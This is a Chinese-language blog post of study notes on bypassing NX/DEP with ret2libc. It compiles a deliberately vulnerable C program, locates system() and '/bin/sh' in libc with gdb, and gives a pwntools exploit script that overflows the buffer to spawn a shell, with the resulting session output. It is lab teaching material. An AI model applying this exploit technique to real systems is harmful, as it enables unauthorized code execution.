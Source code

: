 ```yaml
---
title: 通过ret2libc绕过DEP防护
date: 2018-03-17 19:23:00
tags: PWN

---
```


## 0x00 前言

看蒸米师傅的一步一步学ROP做的笔记

<!--more-->

0x01 程序源代码：
和第一篇一样

​    

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
vulnerable_function();
write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

编译，依旧关闭stack protecter和ASLR：

```
gcc -fno-stack-protector -o level2 level2.c
```

查看程序的保护机制：

```
mask@mask-virtual-machine:~/mzheng$ gdb ./level2
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./level2...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY: disabled
FORTIFY   : disabled
NX: ENABLED
PIE   : disabled
RELRO : Partial
```

这时候NX是开启的，也就是说我们之前的shellcode在栈中是不能执行的，那么怎样执行shellcode呢？

ldd命令是查看程序包含了哪些库文件

```
mask@mask-virtual-machine:~/mzheng$ ldd level2
	linux-gate.so.1 =>  (0xb7ffe000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e2e000)
	/lib/ld-linux.so.2 (0x80000000)
```

我们知道level2调用了libc.so，并且libc.so里保存了大量可利用的函数，我们如果可以让程序执行system(“/bin/sh”)的话，也可以获取到shell。

那么接下来就是获取system()这个函数的地址以及”/bin/sh”这个字符串的地址。

下面是蒸米文章中的原话

> 如果关掉了ASLR的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含”/bin/sh”这个字符串，并且这个字符串的地址也是固定的。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和”/bin/sh”字符串的地址。

```
Breakpoint 1, 0x0804846e in main ()
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xb7e43da0 <__libc_system>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f649ab ("/bin/sh")
gdb-peda$ 
```

那么两样都齐全了，开始编写exp：

```
#!/usr/bin/env python
from pwn import *

p = process('./level2')
#p = remote('127.0.0.1',10002)

ret = 0xdeadbeef
systemaddr=0xb7e43da0
binshaddr=0xb7f649ab

payload =  'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)

p.send(payload)

p.interactive()
```

这里因为我们不去执行返回地址处的代码，当然开了NX你也执行不了，所以我们ret就随意写个，凑够字节数即可

运行：

```
mask@mask-virtual-machine:~/mzheng$ vim exp2.py 
mask@mask-virtual-machine:~/mzheng$ python exp2.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './level2': pid 27786
[*] Switching to interactive mode
$ whoami
mask
$ id
uid=1000(mask) gid=1000(mask) 组=1000(mask),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$  
```